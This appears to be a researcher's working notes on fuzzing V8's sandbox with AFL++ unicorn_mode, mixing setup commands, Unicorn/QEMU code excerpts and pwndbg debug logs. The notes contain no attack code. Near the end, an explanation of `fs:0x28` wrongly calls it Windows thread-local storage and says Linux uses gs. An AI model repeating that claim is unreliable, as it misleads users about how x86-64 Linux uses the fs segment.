

# Table of content

- [References](#references)
- [Setup](#setup)
- [Unicorn fuzzer](#unicorn-fuzzer)
    - [Dumpper](#Dumpper)
    - [Run sample fuzz](#Run-sample-fuzz)

# References

- https://github.com/search?q=repo%3Aunicorn-engine%2Funicorn%20tcg_out32&type=code

**Idea**




# Setup 

Hidden git hash on zsh:

```bash
git config oh-my-zsh.hide-info 1
```

Generate `compile_command.json` file:

```bash
/tools/clang/scripts/generate_compdb.py -p out/debug > compile_commands.json
```


1. Install v8, depot_tools+AFLplusplus

- Remember changing UID:GID in Dockerfile before building

```bash
# install depot_tools
# Conditional git clone if the directory is empty
# RUN mkdir -p /home/vult/depot_tools && \
#     [ "$(ls -A /home/vult/depot_tools)" ] || git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git /home/vult/depot_tools
# ENV PATH="/home/vult/depot_tools:${PATH}"

# # install AFLplusplus
# # Conditional git clone if the directory is empty
# # AFLplusplus version 4.10a
# RUN mkdir -p /home/vult/AFLplusplus && \
#     [ "$(ls -A /home/vult/AFLplusplus)" ] || (\
#     git clone https://github.com/AFLplusplus/AFLplusplus.git /home/vult/AFLplusplus && \
#     cd /home/vult/AFLplusplus && \
#     git checkout ca0c9f6d1797bac121996c3b2ac50423f6e67b8f)
```

2. run dockerfile: `sudo docker compose build && sudo docker compose run v8 zsh`


3. Build AFL++ and v8 release+debug

```bash
cd AFLplusplus
make distrib
sudo make install

```

4. Unicornafl building

```bash
mkdir build
cd build
cmake .. -DCMAKE_BUILD_TYPE=Debug -DUNICORN_TRACER=1 -DUCAFL_NO_LOG=off -DBUILD_SHARED_LIBS=OFF -DCONFIG_DEBUG_TCG=1 # build a static library
make
```


# Unicorn fuzzer

Blogs:
    - https://eternalsakura13.com/2020/03/18/unicorn_learn/
    - https://hackernoon.com/afl-unicorn-part-2-fuzzing-the-unfuzzable-bea8de3540a5

## Dumpper

```bash
source /home/vult/v8_sb_fuzz/AFLplusplus/unicorn_mode/helper_scripts/unicorn_dumper_pwndbg.py
```

Example 1:


**Harness**

- C: https://github.com/AFLplusplus/AFLplusplus/blob/stable/unicorn_mode/samples/c/harness.c
- Python: https://github.com/AFLplusplus/AFLplusplus/blob/stable/unicorn_mode/samples/python_simple/simple_test_harness.py
- Unicorn-fuzz: https://github.com/unicorn-engine/unicorn/blob/master/tests/fuzz/fuzz_emu_x86_64.c
- https://github.com/domenukk/unicornafl
- https://github.com/kirasys/unicorn-fuzzer
- samples test: https://github.com/unicorn-engine/unicorn/blob/d4b92485b1a228fb003e1218e42f6c778c655809/samples/sample_x86.c#L1322
- translate: https://github.com/qemu/qemu/commit/84abdd7d271c2df69a9d394be093efd885da7a4c
- prompts for asking questions: https://github.com/f/awesome-chatgpt-prompts/tree/main


**Git**

```bash
# reset after `git add`
git reset -- AFLplusplus/unicorn_mode/samples/c/UnicornContext_20240704_110015/

```


### Run sample fuzz

`/home/vult/v8_sb_fuzz/AFLplusplus/unicorn_mode/samples/c`

```bash
AFL_DEBUG=1 afl-fuzz -U -m none -i sample_inputs/ -o fuzz_out1 -- ./harness @@
```

I'm working on folder `/home/vult/AFLplusplus/unicorn_mode/samples/c` of docker v8

Building steps:

```bash
# building inside docker
rm harness && make harness

# running outside docker
CONTEXT_DIR=UnicornContext_20240704_121555 ./harness -t out/default/crashes/id:000000,sig:01,src:000000,time:353,execs:371,op:havoc,rep:16

# show debug
 UNICORN_DEBUG=1 CONTEXT_DIR=UnicornContext_20240704_121555 ./harness -t out/default/crashes/id:000000,sig:01,src:000000,time:353,execs:371,op:havoc,rep:16

```

**snapshot_blob.bin**

```
Sandbox testing mode is enabled. Write to the page starting at 0x3d9042d22000 (available from JavaScript as `Sandbox.targetPage`) to demonstrate a sandbox bypass.
Failed to open startup resource '/home/vult/v8_sb_fuzz/AFLplusplus/unicorn_mode/samples/c/snapshot_blob.bin'.


#
# Safely terminating process due to error in , line 0
# The following harmless error was encountered: Failed to deserialize the V8 snapshot blob. This can mean that the snapshot blob file is corrupted or missing.
#
#
#
#FailureMessage Object: 0x7fffffffd9d0

```

```c++
// emulating 1 instruction
uc_err uc_emu_start(uc_engine *uc, uint64_t begin, uint64_t until,
                    uint64_t timeout, size_t count)
{}

/* main execution loop */
int cpu_exec(struct uc_struct *uc, CPUState *cpu)
{
    CPUClass *cc = CPU_GET_CLASS(cpu);
    int ret;
    // SyncClocks sc = { 0 };

    if (cpu_handle_halt(cpu)) {
        return EXCP_HALTED;
    }
```

Can not `jmp`

```js
    0x555556ca2223: mov eax, 2
    0x555556ca2228: mov rdi, rbx
    0x555556ca222b: mov qword ptr [rsp + 0x10], rcx
=== tlb_index: mmu_idx: 2, addr: 7fffffffd610 ===
=== tlb_index: mmu_idx: 2, addr: 7fffffffd610 ===
    0x555556ca2230: mov rsi, r8
    0x555556ca2233: jmp 0x555556b04740
=== tlb_index: mmu_idx: 2, addr: 555556b04740 ===
=== tlb_index: mmu_idx: 2, addr: 555556b04740 ===
//....
=== tlb_index: mmu_idx: 2, addr: 7fffffffd3e0 ===
=== tlb_index: mmu_idx: 2, addr: 7fffffffd3d8 ===
=== tlb_index: mmu_idx: 2, addr: 7fffffffd3d8 ===
=== tlb_index: mmu_idx: 2, addr: 28 ===
=== tlb_index: mmu_idx: 2, addr: 28 ===
=== tlb_index: mmu_idx: 2, addr: 0 ===
=== tlb_index: mmu_idx: 2, addr: 0 ===
=== tlb_index: mmu_idx: 2, addr: 28 ===
=== tlb_index: mmu_idx: 2, addr: 28 ===
>>> invalid memory accessed, STOP !!
=== uc_exit_invalidate_iter, uc->invalid_error: 6 ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c190ff ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c190ff ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c19000 ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c19000 ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c190ff ===
=== tlb_index: mmu_idx: 2, addr: 7f5556c190ff ===
```

Try logging `jmp`

```js
$$$$$$$$$$$ gen_goto_tb: pc=0x555556ca2202, tb_num=0
########## jump to another page eip=0x555556ca2202
    0x555556ca1ef0: push rbp
    0x555556ca1ef1: mov rbp, rsp
    0x555556ca1ef4: push 0x22
    0x555556ca1ef6: sub rsp, 8
    0x555556ca1efa: jmp 0x555556ca2202
$$$$$$$$$$$ gen_goto_tb: pc=0x555556b04740, tb_num=0
########## jump to another page eip=0x555556b04740
    0x555556ca2202: movsx rcx, byte ptr [r12 + r9 + 3]
    0x555556ca2208: movsx r9, byte ptr [r12 + r9 + 2]
    0x555556ca220e: mov rcx, qword ptr [rdx + rcx*8]
    0x555556ca2212: mov rdx, qword ptr [rdx + r9*8]
    0x555556ca2216: mov rbp, qword ptr [rbp]
    0x555556ca221a: add rsp, 0x18
    0x555556ca221e: push rdx
    0x555556ca221f: push qword ptr [rsp + 8]
    0x555556ca2223: mov eax, 2
    0x555556ca2228: mov rdi, rbx
    0x555556ca222b: mov qword ptr [rsp + 0x10], rcx
    0x555556ca2230: mov rsi, r8
    0x555556ca2233: jmp 0x555556b04740
$$$$$$$$$$$ gen_goto_tb: pc=0x555556b0474a, tb_num=0
######### jump to same page: we can use a direct jump eip=0x555556b0474a
$$$$$$$$$$$ gen_goto_tb: pc=0x555556b047b6, tb_num=1
######### jump to same page: we can use a direct jump eip=0x555556b047b6
$$$$$$$$$$$ gen_goto_tb: pc=0x555556b04765, tb_num=0
// ... 
######### jump to same page: we can use a direct jump eip=0x555555c47fd9
$$$$$$$$$$$ gen_goto_tb: pc=0x555555c47feb, tb_num=1
######### jump to same page: we can use a direct jump eip=0x555555c47feb
$$$$$$$$$$$ gen_goto_tb: pc=0x555555c48360, tb_num=0
########## jump to another page eip=0x555555c48360
$$$$$$$$$$$ gen_goto_tb: pc=0x555555c4838f, tb_num=0
######### jump to same page: we can use a direct jump eip=0x555555c4838f
$$$$$$$$$$$ gen_goto_tb: pc=0x555555c4840f, tb_num=1
######### jump to same page: we can use a direct jump eip=0x555555c4840f
>>> invalid memory accessed, STOP !!
=== uc_exit_invalidate_iter, uc->invalid_error: 6 ===
[2]    851779 abort (core dumped)  CONTEXT_DIR=UnicornContext_20240704_121555 ./harness -t 

```

Dump PC:

```js
##### disas_insn s->pc: 555555c4837a
##### disas_insn s->pc: 555555c48383
##### disas_insn s->pc: 555555c48387
##### disas_insn s->pc: 555555c48389
>>> invalid memory accessed, STOP !!
=== uc_exit_invalidate_iter, uc->invalid_error: 6 ===
[3]    854534 abort (core dumped)  CONTEXT_DIR=UnicornContext_20240704_121555 ./harness -t 
```

Flow opcodes:

```js
##### disas_insn s->pc: 0x555555c4837a
	 b: 0x64
	 b: 0x48
	 b: 0x8b
##### disas_insn s->pc: 0x555555c48383
	 b: 0x48
	 b: 0x89
##### disas_insn s->pc: 0x555555c48387
	 b: 0x85
##### disas_insn s->pc: 0x555555c48389
	 b: 0xf
	0xf -- b: 0x184
		b: 0x184, tval: 0x55c4840f, next_eip: 0x55c4838f
>>> invalid memory accessed, STOP !!
=== uc_exit_invalidate_iter, uc->invalid_error: 6 ===
[3]    855733 abort (core dumped)  CONTEXT_DIR=UnicornContext_20240704_121555 ./harness -t 
```

Reading QEMU code~~: https://github.com/qemu/qemu/blob/7914bda497f07965f15a91905cd7ed9eaf1c1092/target/i386/cpu-dump.c
x86_cpu: https://github.com/qemu/qemu/blob/7914bda497f07965f15a91905cd7ed9eaf1c1092/target/i386/cpu.c#L8044
Following unicorn qemu: https://github.com/unicorn-engine/unicorn/blob/master/qemu/tcg/tcg-op.c

Error:

```js
    0x555556ca1efa: jmp 0x555556ca2202
    0x555556ca2202: movsx rcx, byte ptr [r12 + r9 + 3]
    0x555556ca2208: movsx r9, byte ptr [r12 + r9 + 2]
    0x555556ca220e: mov rcx, qword ptr [rdx + rcx*8]
    0x555556ca2212: mov rdx, qword ptr [rdx + r9*8]
    0x555556ca2216: mov rbp, qword ptr [rbp]
    0x555556ca221a: add rsp, 0x18
    0x555556ca221e: push rdx
    0x555556ca221f: push qword ptr [rsp + 8]
    0x555556ca2223: mov eax, 2
    0x555556ca2228: mov rdi, rbx
    0x555556ca222b: mov qword ptr [rsp + 0x10], rcx
    0x555556ca2230: mov rsi, r8
    0x555555c48389: invalid

222 uc->invalid_error = 6

// log 
 insn_idx=8 ---- 0000555555c48371 0000000000000011
 1:  ext32u_i64 r12,rdx  sync: 0  dead: 0

 insn_idx=9 ---- 0000555555c48374 0000000000000011
 1:  mov_i64 r14,rsi mem_base=0x555557393878   sync: 0  dead: 0 1

 insn_idx=10 ---- 0000555555c48377 0000000000000011
 1:  mov_i64 rbx,rdi mem_base=0x555557393878   sync: 0  dead: 0 1

 insn_idx=11 ---- 0000555555c4837a 0000000000000011
 1:  movi_i64 tmp2,$0x28
 2:  add_i64 tmp2,fs_base,tmp2  dead: 1 2
 3:  qemu_ld_i64 tmp0,tmp2,leq,2  dead: 1
 4:  ld_i32 tmp11,env,$0xfffffffffffffff0
 5:  movi_i32 tmp12,$0x0
 6:  brcond_i32 tmp11,tmp12,lt,$L0  dead: 0 1
 7:  mov_i64 rax,tmp0  sync: 0  dead: 1

 insn_idx=12 ---- 0000555555c48383 0000000000000011
 1:  movi_i64 tmp13,$0xffffffffffffffd0
 2:  add_i64 tmp2,rbp,tmp13  dead: 1 2
 3:  qemu_st_i64 rax,tmp2,leq,2  dead: 0 1
 4:  ld_i32 tmp11,env,$0xfffffffffffffff0  dead: 1
 5:  movi_i32 tmp12,$0x0
 6:  brcond_i32 tmp11,tmp12,lt,$L0  dead: 0 1

 insn_idx=13 ---- 0000555555c48387 0000000000000011
 1:  mov_i64 cc_dst,rdx mem_base=0x555557393878   sync: 0  dead: 1
 2:  discard cc_src
 3:  discard loc10

 insn_idx=14 ---- 0000555555c48389 0000000000000018
 1:  ext32u_i64 tmp0,cc_dst  dead: 1
 2:  movi_i32 cc_op,$0x18  sync: 0  dead: 0
 3:  movi_i64 tmp13,$0x0
 4:  brcond_i64 tmp0,tmp13,eq,$L1  dead: 0 1
 5:  goto_tb $0x0
 6:  movi_i64 tmp3,$0x555555c4838f
 7:  st_i64 tmp3,env,$0x80  dead: 0 1
 8:  exit_tb $0x7fffb79e1f00
 9:  set_label $L1
 10:  goto_tb $0x1
 11:  movi_i64 tmp3,$0x555555c4840f
 12:  st_i64 tmp3,env,$0x80  dead: 0 1
 13:  exit_tb $0x7fffb79e1f01
 14:  set_label $L0
 15:  exit_tb $0x7fffb79e1f03
222 uc->invalid_error = 6
```

Maybe it's missing `je` instruction

```js
code:
    0x555555c48389: 0f
    0x555555c4838a: 84
    0x555555c4838b: 80
    0x555555c4838c: 00
    0x555555c4838d: 00
    0x555555c48389: invalid
// ==========================================
pwndbg> x/2i 0x555555c48389
   0x555555c48389 <_ZN2v88internal11FactoryBaseINS0_7FactoryEE18HeapNumberToStringENS0_6HandleINS0_10HeapNumberEEEdNS0_15NumberCacheModeE+41>:	je     0x555555c4840f <_ZN2v88internal11FactoryBaseINS0_7FactoryEE18HeapNumberToStringENS0_6HandleINS0_10HeapNumberEEEdNS0_15NumberCacheModeE+175>
   0x555555c4838f <_ZN2v88internal11FactoryBaseINS0_7FactoryEE18HeapNumberToStringENS0_6HandleINS0_10HeapNumberEEEdNS0_15NumberCacheModeE+47>:	mov    rdi,rbx
```

`uc->invalid_error = 6` means:
This is setting an error code. In Unicorn Engine, error code 6 typically corresponds to UC_ERR_FETCH_UNMAPPED, which means the emulator tried to fetch instructions from unmapped memory.

```js
// =========
$$$$$$$ INDEX_op_exit_tb $$$$$$$
 $$$$$$$ 3333, ===== s->tb_ret_addr: 0x7fffb79c9018
$$$$$$$ INDEX_op_exit_tb $$$$$$$
 $$$$$$$ 3333, ===== s->tb_ret_addr: 0x7fffb79c9018
222 uc->invalid_error = 6
>>> invalid memory accessed, STOP !!
=== uc_exit_invalidate_iter, uc->invalid_error: 6 ===
```

Hereeeeee:

```js
static uint64_t inline
load_helper(CPUArchState *env, target_ulong addr, TCGMemOpIdx oi,
            uintptr_t retaddr, MemOp op, bool code_read,
            FullLoadHelper *full_load)
{
    uintptr_t mmu_idx = get_mmuidx(oi);
    uintptr_t index = tlb_index(env, mmu_idx, addr);
    CPUTLBEntry *entry = tlb_entry(env, mmu_idx, addr);
    target_ulong tlb_addr = code_read ? entry->addr_code : entry->addr_read;
    //...
}
// =======
/* helper signature: helper_ret_ld_mmu(CPUState *env, target_ulong addr,
 *                                     int mmu_idx, uintptr_t ra)
 */
static void * const qemu_ld_helpers[16] = {
    [MO_UB]   = helper_ret_ldub_mmu,
    [MO_LEUW] = helper_le_lduw_mmu,
    [MO_LEUL] = helper_le_ldul_mmu,
    [MO_LEQ]  = helper_le_ldq_mmu,
    [MO_BEUW] = helper_be_lduw_mmu,
    [MO_BEUL] = helper_be_ldul_mmu,
    [MO_BEQ]  = helper_be_ldq_mmu,
};
// ===========
uint64_t helper_le_ldq_mmu(CPUArchState *env, target_ulong addr,
                           TCGMemOpIdx oi, uintptr_t retaddr)
{
    printf("&&&&& helper_le_ldq_mmu  addr: %lx,  retaddr: %lx\n", addr, retaddr);
    return load_helper(env, addr, oi, retaddr, MO_LEQ, false,
                       helper_le_ldq_mmu);
}
// ===========
static void tcg_out_sib_offset(TCGContext *s, int r, int rm, int index,
                               int shift, intptr_t offset)
{
    // printf(" ###### tcg_out_sib_offset r=%d, rm=%d, index=%d, shift=%d, offset=%lx\n", r, rm, index, shift, offset);
    int mod, len;

    //...
}
// ===========
// https://github.com/unicorn-engine/unicorn/blob/d4b92485b1a228fb003e1218e42f6c778c655809/qemu/tcg/i386/tcg-target.inc.c#L1821
/*
 * Generate code for the slow path for a load at the end of block
 */
static bool tcg_out_qemu_ld_slow_path(TCGContext *s, TCGLabelQemuLdst *l)
{..}
// ===========
static void tcg_out_opc(TCGContext *s, int opc, int r, int rm, int x)
{
    int rex;

    if (opc & P_GS) {
        tcg_out8(s, 0x65);
    }
    if (opc & P_DATA16) {
        /* We should never be asking for both 16 and 64-bit operation.  */
        tcg_debug_assert((opc & P_REXW) == 0);
        tcg_out8(s, 0x66);
    }
    if (opc & P_SIMDF3) {
        tcg_out8(s, 0xf3);
    } else if (opc & P_SIMDF2) {
        tcg_out8(s, 0xf2);
    }
    //...
}
// ======= log ======
### tcg_out_qemu_ld_slow_path called, opc: 3
### tcg_out_qemu_ld_slow_path called, opc: 3
### tcg_out_qemu_ld_slow_path called, opc: 3
&&&&& helper_le_ldq_mmu  addr: 28,  retaddr: 7fffb79e21e9
 $$$$$$$$$ load_helper: memory might be still unmapped while reading or fetching bbbb
	### paddr: 28, op: 3, addr: 0x28
222 uc->invalid_error = 6
>>> invalid memory accessed, STOP !!

```

**Why is the address invalid?**

```js
&&&&& helper_le_ldq_mmu  addr: 28,  retaddr: 7fffb79e21e9
 $$$$$$$$$ load_helper: memory might be still unmapped while reading or fetching bbbb
	### paddr: 28, op: 3, addr: 0x28
```

Stacktrace:

```js

pwndbg> bt
#0  0x000055555612ec5b in tcg_out_qemu_ld_slow_path ()
#1  0x0000555556128278 in tcg_out_ldst_finalize ()
#2  0x00005555561255ee in tcg_gen_code_x86_64 ()
#3  0x000055555610e8c8 in tb_gen_code_x86_64 ()
#4  0x000055555611efdd in tb_find ()
#5  0x000055555611ea33 in cpu_exec_x86_64 ()
#6  0x0000555556155ae4 in tcg_cpu_exec ()
#7  0x0000555556155a09 in resume_all_vcpus_x86_64 ()
#8  0x0000555556155cd5 in vm_start_x86_64 ()
#9  0x0000555555a0deed in uc_emu_start ()
#10 0x0000555555895355 in dummy_uc_afl_fuzz_callback(uc_struct*, void*) ()
#11 0x00005555558971ee in UCAFL::_child_fuzz(bool) ()
#12 0x00005555558959ae in UCAFL::fsrv_run() ()
#13 0x00005555558950b6 in uc_afl_fuzz ()
#14 0x0000555555894ce1 in main ()
#15 0x00007ffff7a73083 in __libc_start_main (main=0x555555894b80 <main>, argc=3, argv=0x7fffffffe268, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe258) at ../csu/libc-start.c:308
#16 0x000055555589377e in _start ()

```

```js
// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/accel/tcg/translate-all.c
/* Called with mmap_lock held for user mode emulation.  */
TranslationBlock *tb_gen_code(CPUState *cpu,
                              target_ulong pc, target_ulong cs_base,
                              uint32_t flags, int cflags)
{}

// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/tcg/tcg.c
int tcg_gen_code(TCGContext *s, TranslationBlock *tb)
{
    int i, num_insns;
    TCGOp *op;
}

// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/accel/tcg/cpu-exec.c
/* Execute a TB, and fix up the CPU state afterwards if necessary */
static inline tcg_target_ulong cpu_tb_exec(CPUState *cpu, TranslationBlock *itb)
{
    CPUArchState *env = cpu->env_ptr;
    uintptr_t ret;
    TranslationBlock *last_tb;
    int tb_exit;
    uint8_t *tb_ptr = itb->tc.ptr;

    UC_TRACE_START(UC_TRACE_TB_EXEC);
    tb_exec_lock(cpu->uc->tcg_ctx);
    ret = tcg_qemu_tb_exec(env, tb_ptr);
    if (cpu->uc->nested_level == 1) {
        // Only unlock (allow writing to JIT area) if we are the outmost uc_emu_start
        tb_exec_unlock(cpu->uc->tcg_ctx);
    }
    UC_TRACE_END(UC_TRACE_TB_EXEC, "[uc] exec tb 0x%" PRIx64 ": ", itb->pc);
}


void translator_loop(const TranslatorOps *ops, DisasContextBase *db,
                     CPUState *cpu, TranslationBlock *tb, int max_insns)
{
    int bp_insn = 0;
    struct uc_struct *uc = (struct uc_struct *)cpu->uc;
    TCGContext *tcg_ctx = uc->tcg_ctx;
    TCGOp *prev_op = NULL;
    bool block_hook = false;
//...
}

```


Stacktrace:

```js

pwndbg> bt
#0  0x000055555612ec5b in tcg_out_qemu_ld_slow_path ()
#1  0x0000555556128278 in tcg_out_ldst_finalize ()
#2  0x00005555561255ee in tcg_gen_code_x86_64 ()
#3  0x000055555610e8c8 in tb_gen_code_x86_64 ()
#4  0x000055555611efdd in tb_find ()
#5  0x000055555611ea33 in cpu_exec_x86_64 ()
#6  0x0000555556155ae4 in tcg_cpu_exec ()
#7  0x0000555556155a09 in resume_all_vcpus_x86_64 ()
#8  0x0000555556155cd5 in vm_start_x86_64 ()
#9  0x0000555555a0deed in uc_emu_start ()
#10 0x0000555555895355 in dummy_uc_afl_fuzz_callback(uc_struct*, void*) ()
#11 0x00005555558971ee in UCAFL::_child_fuzz(bool) ()
#12 0x00005555558959ae in UCAFL::fsrv_run() ()
#13 0x00005555558950b6 in uc_afl_fuzz ()
#14 0x0000555555894ce1 in main ()
#15 0x00007ffff7a73083 in __libc_start_main (main=0x555555894b80 <main>, argc=3, argv=0x7fffffffe268, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe258) at ../csu/libc-start.c:308
#16 0x000055555589377e in _start ()

```

```js
// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/accel/tcg/translate-all.c
/* Called with mmap_lock held for user mode emulation.  */
TranslationBlock *tb_gen_code(CPUState *cpu,
                              target_ulong pc, target_ulong cs_base,
                              uint32_t flags, int cflags)
{}

// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/tcg/tcg.c
int tcg_gen_code(TCGContext *s, TranslationBlock *tb)
{
    int i, num_insns;
    TCGOp *op;
}

// AFLplusplus/unicorn_mode/unicornafl/unicorn/qemu/accel/tcg/cpu-exec.c
/* Execute a TB, and fix up the CPU state afterwards if necessary */
static inline tcg_target_ulong cpu_tb_exec(CPUState *cpu, TranslationBlock *itb)
{
    CPUArchState *env = cpu->env_ptr;
    uintptr_t ret;
    TranslationBlock *last_tb;
    int tb_exit;
    uint8_t *tb_ptr = itb->tc.ptr;

    UC_TRACE_START(UC_TRACE_TB_EXEC);
    tb_exec_lock(cpu->uc->tcg_ctx);
    ret = tcg_qemu_tb_exec(env, tb_ptr);
    if (cpu->uc->nested_level == 1) {
        // Only unlock (allow writing to JIT area) if we are the outmost uc_emu_start
        tb_exec_unlock(cpu->uc->tcg_ctx);
    }
    UC_TRACE_END(UC_TRACE_TB_EXEC, "[uc] exec tb 0x%" PRIx64 ": ", itb->pc);
}


void translator_loop(const TranslatorOps *ops, DisasContextBase *db,
                     CPUState *cpu, TranslationBlock *tb, int max_insns)
{
    int bp_insn = 0;
    struct uc_struct *uc = (struct uc_struct *)cpu->uc;
    TCGContext *tcg_ctx = uc->tcg_ctx;
    TCGOp *prev_op = NULL;
    bool block_hook = false;
//...

    // tcg_dump_ops(tcg_ctx, false, "translator loop");

    /* Start translating.  */
    gen_tb_start(tcg_ctx, db->tb);
    // tcg_dump_ops(tcg_ctx, false, "tb start");

    ops->tb_start(db, cpu);
    // tcg_dump_ops(tcg_ctx, false, "tb start 2");
    //...
}

```

Executing process:

```js

cpu_loop_exec_tb(cpu, tb, &last_tb, &tb_exit);
// =====

pwndbg> tele 0x7fffffffd7a0
00:0000│ rsp 0x7fffffffd7a0 ◂— 0x100000000
01:0008│-028 0x7fffffffd7a8 —▸ 0x7fffb79e216f ◂— mov r13d, dword ptr [rbp - 0x10] /* 0xfed8545f06d8b44 */
02:0010│-020 0x7fffffffd7b0 —▸ 0x7fffb79e21e9 ◂— mov r14d, dword ptr [rbp - 0x10] /* 0xff68545f0758b44 */
03:0018│-018 0x7fffffffd7b8 ◂— 0x3256fc3000
04:0020│-010 0x7fffffffd7c0 ◂— 0x28 /* '(' */
05:0028│-008 0x7fffffffd7c8 —▸ 0x5555573c06d0 ◂— 0xbffd944e444aaaea
06:0030│ rbp 0x7fffffffd7d0 —▸ 0x5555573c06d0 ◂— 0xbffd944e444aaaea
07:0038│+008 0x7fffffffd7d8 —▸ 0x7fffb79e235a ◂— mov r13, rax /* 0xfffffe87e9e88b4c */
pwndbg> 
08:0040│+010 0x7fffffffd7e0 ◂— 0x2e007fffffffd830
09:0048│+018 0x7fffffffd7e8 —▸ 0x5555573944f0 —▸ 0x55555736c710 ◂— 0xc00000001
0a:0050│+020 0x7fffffffd7f0 —▸ 0x7ffff7fa13c0 (funlockfile) ◂— endbr64 
0b:0058│+028 0x7fffffffd7f8 —▸ 0x7ffff7c3c6a0 (_IO_2_1_stdout_) ◂— 0xfbad2a84
0c:0060│+030 0x7fffffffd800 ◂— 0x8900555500000000
0d:0068│+038 0x7fffffffd808 ◂— 0
0e:0070│+040 0x7fffffffd810 —▸ 0x7fffffffd840 —▸ 0x7fffffffd890 —▸ 0x7fffffffd8e0 —▸ 0x55555734a018 ◂— ...
0f:0078│+048 0x7fffffffd818 ◂— 0x3000000008
pwndbg> 
10:0080│+050 0x7fffffffd820 —▸ 0x7fffffffdd50 —▸ 0x7fffb79e1f00 —▸ 0x555555c48360 (io_readx+96) ◂— adc byte ptr [rax - 0x77], cl
11:0088│+058 0x7fffffffd828 —▸ 0x7fffffffdc90 —▸ 0x7fffffffdcf0 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdd90 ◂— ...
12:0090│+060 0x7fffffffd830 ◂— 0x8000000006
13:0098│+068 0x7fffffffd838 —▸ 0x5555573944f0 —▸ 0x55555736c710 ◂— 0xc00000001
14:00a0│+070 0x7fffffffd840 —▸ 0x7fffffffd890 —▸ 0x7fffffffd8e0 —▸ 0x55555734a018 ◂— 0
15:00a8│+078 0x7fffffffd848 —▸ 0x55555612ba9a (tcg_out_sib_offset+554) ◂— jmp 0x55555612ba9c
16:00b0│+080 0x7fffffffd850 ◂— 0x8900000000000020 /* ' ' */
17:00b8│+088 0x7fffffffd858 —▸ 0x5555573944f0 —▸ 0x55555736c710 ◂— 0xc00000001
pwndbg> 
18:00c0│+090 0x7fffffffd860 —▸ 0x7fffffffd890 —▸ 0x7fffffffd8e0 —▸ 0x55555734a018 ◂— 0
19:00c8│+098 0x7fffffffd868 ◂— 0x8000000004
1a:00d0│+0a0 0x7fffffffd870 ◂— 0x80
1b:00d8│+0a8 0x7fffffffd878 ◂— 0xffffffff00000000
1c:00e0│+0b0 0x7fffffffd880 ◂— 0x300000005
1d:00e8│+0b8 0x7fffffffd888 —▸ 0x5555573944f0 —▸ 0x55555736c710 ◂— 0xc00000001
1e:00f0│+0c0 0x7fffffffd890 —▸ 0x7fffffffd8e0 —▸ 0x55555734a018 ◂— 0
1f:00f8│+0c8 0x7fffffffd898 —▸ 0x55555612b861 (tcg_out_modrm_sib_offset+145) ◂— add rsp, 0x40
pwndbg> 
20:0100│+0d0 0x7fffffffd8a0 ◂— 0xffffd8e0
21:0108│+0d8 0x7fffffffd8a8 ◂— 0x500000005
22:0110│+0e0 0x7fffffffd8b0 ◂— 0
23:0118│+0e8 0x7fffffffd8b8 ◂— 0x30 /* '0' */
24:0120│+0f0 0x7fffffffd8c0 ◂— 7
25:0128│+0f8 0x7fffffffd8c8 —▸ 0x55555734a012 ◂— 0x500070000
26:0130│+100 0x7fffffffd8d0 ◂— 0x28 /* '(' */
27:0138│+108 0x7fffffffd8d8 ◂— 0x555500000003
pwndbg> 

```

I know why it catched fetch faild, cause `fs:0x28` 
This instruction is reading a 64-bit value from the memory address pointed to by fs:0x28 and storing it in the rax register.
In practice, this instruction is often used to access thread-local storage (TLS) on Windows systems. Specifically:

On 64-bit Windows, the fs segment register points to the Thread Environment Block (TEB).
The offset 0x28 (40 bytes) into the TEB is where the thread-local storage pointer is stored.

This means that this instruction is typically used to retrieve a pointer to the thread-local storage area for the current thread. It's a common way for a program to access thread-specific data structures in a multi-threaded environment on Windows.
It's worth noting that while this syntax is valid for Windows systems, on Linux systems, the gs segment is typically used for similar purposes instead of fs.

```js
pwndbg> x/20i 0x555555c48360
   0x555555c48360 func>:	push   rbp
   0x555555c48361 func+1>:	mov    rbp,rsp
